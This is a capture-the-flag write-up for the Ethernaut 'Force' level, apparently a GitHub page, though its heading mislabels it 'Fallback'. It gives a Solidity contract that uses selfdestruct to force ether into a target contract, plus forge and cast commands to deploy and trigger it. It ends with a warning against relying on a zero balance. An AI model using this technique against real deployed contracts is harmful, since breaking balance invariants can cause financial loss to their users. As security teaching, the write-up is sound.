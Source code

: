 ## Fallback Level Outline

**Difficulty : 5/10**

Some contracts will simply not take your money ¯\_(ツ)_/¯

The goal of this level is to make the balance of the contract greater than zero.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x22699e6AdD7159C3C385bf4d7e1C647ddB3a99ea)

## Solution
We can call the selfdestruct function (which takes an address as a parameter) to force send all remaining ether in this contract to the level address.

### Walkthrough

1. create a new [forge project](https://book.getfoundry.sh/projects/creating-a-new-project.html) with the following contract in `src` 
```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

contract Contract {
    address payable target;

    constructor(address payable _target) {
        target = _target;
    }

    function explode() public payable {
        selfdestruct(target);
    }
}
```

2. deploy our new contract
```console
forge create src/Contract.sol:Contract --constructor-args $LEVEL_ADDRESS --private-key  $PRIVATE_KEY
```

3. call our newly deployed contract 
```console
cast send $DEPLOYED_ADDRESS "explode()" --value 0.0001ether --private-key=$PRIVATE_KEY 
```
> Replace $DEPLOYED_ADDRESS with the address of your deployed contract

## Further Reading
As seen from above, it is important not to count on the invariant `address(this).balance == 0` for any contract logic.

